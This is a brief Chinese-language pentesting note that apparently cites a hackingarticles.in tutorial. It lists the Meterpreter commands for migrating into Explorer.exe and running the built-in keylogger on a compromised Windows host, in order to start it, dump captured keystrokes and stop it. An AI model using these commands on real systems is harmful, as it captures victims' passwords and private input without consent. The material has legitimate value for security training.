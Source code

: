 ## 在Meterpreter中使用Keylogger [^1]

```bash
migrate 288(Explorer.exe pid)
keyscan_start #启动键盘记录器
keyscan_dump #打印捕获的击键
keyscan_stop #停止键盘记录器
```

[原文](https://www.hackingarticles.in/how-to-use-keylogger-in-meterpreter/)

---

[^1]: 获得meterpreter会话后，使用' **ps** '命令显示目标上正在运行的进程列表。

